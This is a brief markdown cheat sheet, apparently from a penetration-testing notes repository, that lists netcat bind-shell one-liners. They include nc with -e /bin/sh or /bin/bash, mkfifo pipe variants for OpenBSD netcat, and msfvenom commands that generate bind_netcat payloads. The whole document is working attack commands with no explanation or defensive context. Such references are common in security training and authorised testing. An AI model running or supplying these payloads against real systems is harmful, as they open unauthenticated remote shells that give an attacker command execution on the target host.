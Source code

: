 # Netcat

## 01 - One-liners

### 1.1 - GNU

```
$ nc -lnvp <PORT> -e /bin/sh

$ nc -lnvp <PORT> -e /bin/bash
```

### 1.2 - OpenBSD

```
$ mkfifo /tmp/f; (nc -lp <PORT> ||nc -l <PORT>)0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

$ mkfifo /tmp/f; (nc -lp <PORT> ||nc -l <PORT>)0</tmp/f | /bin/bash >/tmp/f 2>&1; rm /tmp/f
```

## 02 - Generate via `msfvenom`

### 2.1 - OpenBSD Method

```
$ msfvenom -p cmd/unix/bind_netcat lport=<PORT>
```

### 2.2 - Traditional GNU Method

```
$ msfvenom -p cmd/unix/bind_netcat_gaping lport=<PORT>

$ msfvenom -p cmd/unix/bind_netcat_gaping_ipv6 lport=<PORT>

$ msfvenom -p cmd/unix/pingback_bind lport=<PORT>
```